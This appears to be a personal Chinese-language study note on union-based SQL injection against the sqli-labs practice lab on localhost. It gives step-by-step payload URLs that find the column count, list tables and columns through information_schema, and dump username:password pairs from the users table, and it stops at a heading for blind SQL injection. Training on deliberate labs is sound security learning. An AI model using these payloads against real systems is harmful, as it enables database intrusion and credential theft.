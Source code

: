 ### sqlmap

注释：' or 1=1 -- %20  ' or 1=1 -- +

***步骤***

1. order by 判断字段数

   * 从大到小直到不报错

     ```http://localhost/sqli-labs/Less-1/?id=' order by 4 -- +```

   * 判断字段输出的位置：

     ```![image-20200304124556138](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124556138.png)``

     ![image-20200304124612150](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20200304124612150.png)

2. union 联合查询获取表名

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() -- +```

   ***数据库名：table_schema***

   ***字段名：culumn_name***

   ***表名：table_name***

   

   

3. union 字段名

​          ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' -- +```

4. 获取字段值：

   ```http://localhost/sqli-labs/Less-1/?id=0' UNION SELECT 1,group_concat(username,0x3a,password),3 from users  -- +```

   



#### bind sql

